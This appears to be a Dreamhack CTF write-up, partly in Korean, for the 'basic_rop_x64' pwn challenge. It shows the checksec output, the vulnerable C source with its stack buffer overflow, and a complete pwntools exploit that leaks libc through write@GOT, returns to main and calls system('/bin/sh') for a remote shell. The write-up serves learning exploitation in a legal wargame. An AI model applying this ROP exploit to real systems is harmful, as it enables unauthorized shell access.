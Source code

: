 # basic_rop_x64 - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name: Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 2
- Provided Files: basic_rop_x64.c, basic_rop_x64(ELF), libc.so.6
- tools: gdb(pwndbg), checksec, ROPgadget 
## Brief Description
이 문제는 서버에서 작동하고 있는 서비스(basic_rop_x64)의 바이너리와 소스 코드가 주어집니다.
Return Oriented Programming 공격 기법을 통해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec --file=basic_rop_x64
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
### Code
``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```
## Vulnerability
### BOF(Buffer Overflow)
``` c
char buf[0x40] = {};

read(0, buf, 0x400);
```
`buf`의 크기는 0x40인 반면, `read`로 `buf`에서 읽어오는 크기는 0x400로 한참 초과하여 BOF 취약점이 발생한다.  
## Exploit
### Strategy
PIE, 카나리 비활성화와 함께 BOF 취약점이 있는 환경은 ROP 공격을 수행하기에 적합하다. 공격 시나리오는 다음과 같다.  
1. libc  leak
2. system addr
3. "/bin/sh" addr
4. ret2main
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| buf | -0x40 |
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 9568)
context.arch = "amd64"

e = ELF('./basic_rop_x64')
libc = ELF('x64/libc.so.6')
r = ROP(e)

write_plt = e.plt['write']
write_got = e.got['write']
read_plt = e.plt['read']
read_got = e.got['read']
main = e.symbols['main']

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh_offset = list(libc.search(b"/bin/sh"))[0]

pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

# Exploit
# write(1, read_got, 4) -> libc  leak
payload = b''
payload += b'A' * 0x48
payload += p64(pop_rdi) + p64(1)
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)
payload += p64(write_plt)
payload += p64(main) # ret2main

p.send(payload)
p.recvuntil(b'A' * 0x40)

# libc 
read = u64(p.recvn(6) + b'\x00'*2)
libc_ = read - read_offset
system = libc_ + system_offset
binsh = libc_ + sh_offset
log.info(f'system: {system}')
log.info(f'sh: {binsh}')

# system("/bin/sh") 
payload = b''
payload += b'A' * 0x48
payload += p64(pop_rdi) + p64(binsh)
payload += p64(system)

p.send(payload)
p.recvuntil(b'A' * 0x40)

# interactive
p.interactive()
```